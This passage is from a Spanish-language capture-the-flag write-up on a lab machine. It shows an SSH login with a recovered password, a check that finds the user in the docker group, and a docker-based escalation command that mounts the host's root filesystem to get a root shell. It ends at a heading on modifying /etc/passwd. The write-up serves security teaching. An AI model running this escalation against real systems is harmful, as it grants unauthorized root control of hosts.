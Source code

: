 Obtenemos la contraseña del usuario `juan`.

### Acceso SSH al servidor

```bash
$ ssh juan@10.0.2.169
juan@10.0.2.169's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-41-generic x86_64)
Last login: Sat Sep  7 19:26:39 2024 from 192.168.1.142
User flag: 440**********
juan@TheHackersLabs-CanYouHackMe:~$
```

- **`ssh`**: Comando para iniciar una sesión SSH (Secure Shell) en un servidor remoto.
- **`juan@10.0.2.169`**: Especifica el usuario (`juan`) y el servidor (`10.0.2.169`) al que te estás conectando.

Se inicia sesión en la máquina como el usuario `juan` y se recibe el "User flag", un código que confirma que se ha logrado acceso como usuario no privilegiado.

### Verificación de permisos del usuario

```bash
juan@TheHackersLabs-CanYouHackMe:~$ id
uid=1001(juan) gid=1001(juan) groups=1001(juan),100(users),1002(docker)
```

- **`id`**: Muestra la identidad y los grupos a los que pertenece el usuario actual.

Se confirma que el usuario `juan` pertenece al grupo `docker`, lo que sugiere una posible vía de escalada de privilegios.

# Escalada de privilegios

### Escalada de privilegios utilizando Docker

```bash
juan@TheHackersLabs-CanYouHackMe:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
Root flag: 233f3**************
root@6f066383d815:/#
```

- **`docker run`**: Ejecuta un contenedor Docker.
- **`-v /:/mnt`**: Monta el sistema de archivos raíz (`/`) del host en el contenedor bajo el directorio `/mnt`. Esto da acceso completo al sistema de archivos del host.
- **`—rm`**: Elimina el contenedor cuando termine de ejecutarse.
- **`-it`**: Abre una sesión interactiva (terminal) en el contenedor.
- **`alpine`**: Imagen ligera de Linux (Alpine Linux) que se usará para ejecutar el contenedor.
- **`chroot /mnt bash`**: Cambia el directorio raíz del contenedor a `/mnt` (el sistema de archivos del host), y abre una shell Bash con acceso completo al sistema de archivos del host.

Se obtiene acceso como root en el sistema del host desde dentro del contenedor Docker, permitiendo visualizar el "Root flag".

### Modificación del archivo `/etc/passwd`
